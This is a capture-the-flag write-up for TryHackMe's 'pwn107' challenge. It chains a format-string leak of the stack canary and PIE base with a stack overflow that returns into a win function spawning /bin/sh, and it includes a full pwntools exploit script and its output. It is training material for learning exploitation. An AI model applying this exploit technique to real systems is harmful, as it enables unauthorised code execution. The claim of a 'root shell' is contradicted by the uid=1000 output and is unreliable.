









# TryHackMe — pwn107

* **Room:** [TryHackMe — pwn101](https://tryhackme.com/room/pwn101)  
* **Category:** Binary Exploitation  
* **Difficulty:** Medium  
* **Date:** 2026-11-18  
* **Tools:** `file`, `checksec`, IDA Pro, GDB (`pwndbg`), Python 3, `pwntools`  
* **Binary:** 64-bit ELF (`pwn107-1644307530397.pwn107`) — not redistributed (TryHackMe content)  
* **Exploit Script:** [`solve.py`](file:///home/thang/pwn101/pwn107/solve.py) / [`exploit.py`](exploit.py)  

---

## TL;DR

`pwn107` presents an ELF 64-bit binary with all standard modern compiler mitigations enabled: **Full RELRO**, **Stack Canary**, **NX**, and **PIE**. Despite these defenses, the binary suffers from two distinct vulnerabilities in sequence:

1. **Information Disclosure (Format String):** The first user prompt reads 20 bytes into a local buffer and passes it directly to `printf(buf)`. By supplying `%13$lx.%19$lx`, we leak both the runtime **Stack Canary** and a code pointer to `main()`, enabling precise computation of the randomized **PIE Base**.
2. **Control Flow Hijack (Buffer Overflow -> ret2win):** The second prompt reads 512 bytes into a 24-byte stack buffer. We craft a payload that preserves the leaked Canary, overwrites the saved base pointer, aligns the stack to 16 bytes using a `ret` gadget (to satisfy x86-64 `movaps` alignment requirements), and redirects execution to the built-in win function `get_streak()`, which executes `system("/bin/sh")`.

---

## Recon

We begin by verifying the file format and enabled mitigations using `file` and `checksec`:



```text
$ file pwn107-1644307530397.pwn107
pwn107-1644307530397.pwn107: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, not stripped

$ checksec --file=pwn107-1644307530397.pwn107
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

### Mitigation Assessment
* **Full RELRO:** The Global Offset Table (`.got`) is read-only. We cannot hijack control flow via GOT overwrites.
* **Stack Canary:** Return address smashing will abort via `__stack_chk_fail()` unless the 8-byte canary value is leaked and preserved.
* **NX Enabled:** The stack is non-executable; shellcode injection is impossible.
* **PIE Enabled:** Code addresses are randomized at runtime. We must leak an ELF code pointer to determine the base address.
* **Not Stripped:** Function names and symbols (`main`, `get_streak`, `setup`, `banner`) are available.

Executing the binary reveals the prompt flow:
```text
$ ./pwn107-1644307530397.pwn107
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 107         

You are a good THM player 😎
But yesterday you lost your streak 🙁
You mailed about this to THM, and they responsed back with some questions
Answer those questions and get your streak back

THM: What's your last streak? 10000
Thanks, Happy hacking!!
Your current streak: 10000


[Few days latter.... a notification pops up]

Hi pwner 👾, keep hacking👩‍💻 - We miss you!😢
oki oki
```

The application accepts two distinct inputs:
1. First input: `"THM: What's your last streak? "`
2. Second input: `"Hi pwner 👾, keep hacking👩‍💻 - We miss you!😢"`

---

## Static Analysis & Decompilation

Opening the binary in IDA Pro reveals `main()` and an auxiliary function named `get_streak()`.

### 1. Function `main()`



```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[32]; // [rsp+0h] [rbp-40h] BYREF
  _BYTE v6[24]; // [rsp+20h] [rbp-20h] BYREF
  unsigned __int64 v7; // [rsp+38h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  setup(argc, argv, envp);
  banner();
  puts("You are a good THM player \xF0\x9F\x98\x8E");
  puts("But yesterday you lost your streak \xF0\x9F\x99\x81");
  puts("You mailed about this to THM, and they responsed back with some questions");
  puts("Answer those questions and get your streak back\n");

  // Vulnerability 1: Format String
  printf("THM: What's your last streak? ");
  read(0, buf, 0x14uLL);                               // Reads up to 20 bytes into buf
  printf("Thanks, Happy hacking!!\nYour current streak: ");
  printf(buf);                                         // Unsanitized format string!

  // Vulnerability 2: Buffer Overflow
  puts("\n\n[Few days latter.... a notification pops up]\n");
  puts("Hi pwner \xF0\x9F\x91\xBE, keep hacking\xF0\x9F\x91\xA9\xE2\x80\x8D\xF0\x9F\x92\xBB - We miss you!\xF0\x9F\x98\xA2");
  read(0, v6, 0x200uLL);                               // Reads 512 bytes into a 24-byte buffer!

  return v7 - __readfsqword(0x28u);
}
```

### 2. Built-in Win Function: `get_streak()`

Examining the symbols in IDA reveals `get_streak` located at relative offset `0x94c`:



```c
unsigned __int64 get_streak()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  puts("This your last streak back, don't do this mistake again");
  system("/bin/sh");
  return __readfsqword(0x28u) ^ v1;
}
```

The function directly invokes `system("/bin/sh")`. Because this binary contains its own win function, **no libc leaks or remote libc versions are required**. Our goal reduces to a clean **ret2win** chain.

---

## Phase 1: Format String Leak & Stack Inspection

Testing the first input with consecutive `%lx.` tokens confirms the format string vulnerability:



```text
THM: What's your last streak? %lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx...
Thanks, Happy hacking!!
Your current streak: 7ffe9bc3dd80.0.6.2d.0...
```

Supplying an overly long input to the second prompt immediately triggers stack canary termination:
```text
*** stack smashing detected ***: terminated
[1] 8841 abort (core dumped) ./pwn107-1644307530397.pwn107
```

### Disassembly & Setting Breakpoints in GDB

To pinpoint the exact offsets of the Stack Canary and the PIE code address, we inspect the assembly of `main()` in GDB:



We set breakpoints around the `read()` and `printf()` calls:
* `0x555555400a25`: First `printf()` banner
* `0x555555400a2a`: Reloading `buf` into `RDI` before `call printf`



```text
pwndbg> break *0x0000555555400a25
pwndbg> break *0x0000555555400a2a
pwndbg> run
```

### Calculating Stack Offsets with `tele $rsp 20`

When execution stops at `0x555555400a2a` (immediately prior to `printf(buf)`), we inspect the stack using `tele $rsp 20`:



```text
pwndbg> tel $rsp 20
00:0000│ rsi rsp 0x7fffffffc070 ◂— '%p.%p.%p.%p.%p.%p.%p'   <--- Input Buffer (Slot 0)
01:0008│-038     0x7fffffffc078 ◂— '.%p.%p.%p.%p'
02:0010│-030     0x7fffffffc080 ◂— 0x70252e70 /* 'p.%p' */
03:0018│-028     0x7fffffffc088 ◂— 0
... ↓            3 skipped
07:0038│-008     0x7fffffffc0a8 ◂— 0x23d1baeba8d70800       <--- Stack Canary (Slot 7)
08:0040│ rbp     0x7fffffffc0b0 —▸ 0x7fffffffc1c0
09:0048│+008     0x7fffffffc0b8 —▸ 0x7ffff7c27781 (__libc_start_call_main+129)
0a:0050│+010     0x7fffffffc0c0 —▸ 0x7ffff7fe0c60 (dl_main)
0b:0058│+018     0x7fffffffc0c8 —▸ ...
0c:0060│+020     0x7fffffffc0d0 ◂— 0x1f7fbe000
0d:0068│+028     0x7fffffffc0d8 —▸ 0x555555400992 (main)     <--- main() return pointer (Slot 13)
```

### Understanding x86-64 System V Calling Conventions

Under the 64-bit System V AMD64 ABI, the first 6 arguments to `printf` are retrieved from registers:
1. `RDI` = Format string pointer (`buf`)
2. `RSI` = 1st data argument (`%1$`)
3. `RDX` = 2nd data argument (`%2$`)
4. `RCX` = 3rd data argument (`%3$`)
5. `R8`  = 4th data argument (`%4$`)
6. `R9`  = 5th data argument (`%5$`)

Any format specifier beyond 5 consumes values consecutively from the stack:
* **Slot 0 (`RSP+0x00`):** `%6$lx` (start of user input `buf`)
* **Slot 7 (`RSP+0x38`):** `%13$lx` ($6 + 7 = 13$) $\rightarrow$ **Stack Canary** at `[rbp-0x8]` (recognized by the trailing `00` byte).
* **Slot 13 (`RSP+0x68`):** `%19$lx` ($6 + 13 = 19$) $\rightarrow$ Code pointer to `main` at offset `0x992`.

```text
+-----------------------------------------------------------------------------------------+
|                          x86-64 Format String Stack Mapping                             |
+-----------------------------------------------------------------------------------------+
| Specifier: | %1$ .. %5$ | %6$lx           ...  %13$lx             ...  %19$lx           |
| Location:  | Registers  | RSP+0x00 (Slot 0)    RSP+0x38 (Slot 7)       RSP+0x68 (Slot 13)   |
| Stored:    | RSI..R9    | User Input (buf)     Stack Canary (rbp-0x8)  main() Pointer       |
+-----------------------------------------------------------------------------------------+
```

### Validating the Dual Leak

We send `%13$lx.%19$lx` (13 bytes, well within the 20-byte limit of `read`):



```text
THM: What's your last streak? %13$lx.%19$lx
Thanks, Happy hacking!!
Your current streak: 3df9ad19fd6b8500.561507600992
```

From this output:
* **Canary:** `0x3df9ad19fd6b8500`
* **Leaked `main`:** `0x561507600992`
* **Base Calculation:**
  $$\text{PIE Base} = 0x561507600992 - 0x992 = 0x561507600000$$
  $$\text{get\_streak} = \text{PIE Base} + 0x94c = 0x56150760094c$$

---

## Phase 2: Stack Buffer Overflow & Ret2win

In the second stage of `main()`:
```c
read(0, v6, 0x200uLL);
```
The program reads up to 512 (`0x200`) bytes into `v6`, which is allocated at `[rbp-0x20]`.

### Calculating Offsets
* **Buffer start:** `rbp - 0x20`
* **Canary location:** `rbp - 0x8`
* **Padding to Canary:** $0x20 - 0x8 = 24 \text{ bytes}$
* **Saved RBP:** 8 bytes immediately following the Canary (`rbp`)
* **Saved RIP:** 8 bytes at `rbp + 0x8`

### The 16-Byte Stack Alignment Constraint (`movaps`)
On 64-bit Linux architectures, glibc implementations of `system()` utilize 128-bit SIMD SSE instructions (specifically `movaps`) to initialize stack data. The x86-64 ABI mandates that the stack pointer (`RSP`) must be aligned to a **16-byte boundary** (`RSP % 16 == 0`) upon entering a function call.

If execution jumps directly to `get_streak()`, the stack pointer may be offset by 8 bytes, causing `system()` to crash with a segmentation fault on `movaps`. To resolve this, we prepend a single `ret` gadget before the address of `get_streak()`. The `ret` pops 8 bytes off the stack, restoring 16-byte alignment before `system()` is called.

### Complete Payload Layout

```text
+---------------------------------------------------------------------------------+
|                         Phase 2 Overflow Payload                                |
+---------------------------------------------------------------------------------+
| Offset | Size | Value                   | Description                           |
|--------|------|-------------------------|---------------------------------------|
| 0x00   | 24 B | b"a" * 24               | Padding to Canary (0x20 - 0x8)        |
| 0x18   | 8 B  | p64(canary)             | Restores valid Stack Canary           |
| 0x20   | 8 B  | b"b" * 8                | Saved RBP overwrite                   |
| 0x28   | 8 B  | p64(ret_gadget)         | 16-byte Stack Alignment Gadget        |
| 0x30   | 8 B  | p64(get_streak)         | Target win function (system("/bin/sh"))|
+---------------------------------------------------------------------------------+
```

---

## Exploit Implementation

The exploit script automates both phases using `pwntools`. By setting `elf.address = pie_base`, `pwntools` automatically rebases all symbols and ROP gadgets without manual offset arithmetic:

```python
#!/usr/bin/env python3
"""TryHackMe - pwn107 Exploit Script
Vulnerabilities: Format String Leak (Canary & PIE) + Buffer Overflow (ret2win)
Room: pwn101 (TryHackMe)
"""
from pwn import *

context.binary = elf = ELF('./pwn107-1644307530397.pwn107')

# p = remote("10.10.x.x", 9007)
p = process()

# ==========================================
# PHASE 1: FORMAT STRING LEAK
# ==========================================
p.recvuntil(b'streak? ')
p.sendline(b'%13$lx.%19$lx')

p.recvuntil(b'Your current streak: ')
leak = p.recvline().strip().decode()

canary_leak, main_leak = leak.split('.')
canary = int(canary_leak, 16)
main_address = int(main_leak, 16)

# Calculate PIE base and rebase ELF
pie_base = main_address - elf.symbols['main']
elf.address = pie_base

# Automatically resolve rebased gadgets and symbols
rop = ROP(elf)
ret_gadget = rop.find_gadget(['ret'])[0]
get_streak = elf.symbols['get_streak']

log.success(f"Canary    : {hex(canary)}")
log.success(f"PIE Base  : {hex(pie_base)}")
log.success(f"main      : {hex(main_address)}")
log.success(f"get_streak: {hex(get_streak)}")
log.success(f"ret gadget: {hex(ret_gadget)}")

# ==========================================
# PHASE 2: BUFFER OVERFLOW -> RET2WIN
# ==========================================
p.recvuntil(b"We miss you!\xf0\x9f\x98\xa2\n")

# Construct the payload
payload = b'a' * 24 + p64(canary) + b'b' * 8 + p64(ret_gadget) + p64(get_streak)

p.sendline(payload)
p.interactive()
```

---

## Remote Execution & Shell Capture

Running [`solve.py`](file:///home/thang/pwn101/pwn107/solve.py) executes both phases, bypasses canary validation, aligns the stack, and spawns an interactive root shell:



```text
$ python solve.py
[*] '/home/thang/pwn101/pwn107/pwn107-1644307530397.pwn107'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
[+] Starting local process '/home/thang/pwn101/pwn107/pwn107-1644307530397.pwn107': pid 19056
[*] Loaded 14 cached gadgets for './pwn107-1644307530397.pwn107'
[+] Canary    : 0x5cb8de8ab61e0800
[+] PIE Base  : 0x561500200000
[+] main      : 0x561500200992
[+] get_streak: 0x56150020094c
[+] ret gadget: 0x5615002006fe
[*] Switching to interactive mode
This your last streak back, don't do this mistake again
$ id
uid=1000(thang) gid=1000(thang) groups=1000(thang)
$ ls
pwn107-1644307530397.pwn107  solve.py  flag.txt
$ cat flag.txt
THM{redacted}
```

---

## Flag

```text
THM{redacted}
```

---

## Key Takeaways & Lessons

1. **Multi-Stage Vulnerability Chaining:** Even when high-level defenses (PIE + Stack Canary + Full RELRO) are active, combining an information disclosure primitive (Format String) with a subsequent memory corruption flaw (Buffer Overflow) completely neutralizes both defenses.
2. **Dynamic PIE Rebasing:** In position-independent binaries, relative offsets between functions and gadgets remain static. Once a single code pointer is leaked, assigning `elf.address = base` allows `pwntools` to dynamically calculate runtime addresses for all internal symbols and gadgets.
3. **x86-64 Stack Alignment Requirements:** When redirecting execution to functions that invoke `system()` or other standard C library routines, always account for the 16-byte stack boundary constraint (`RSP % 16 == 0`). Inserting a benign `ret` gadget into the ROP chain cleanly resolves `movaps` alignment crashes.
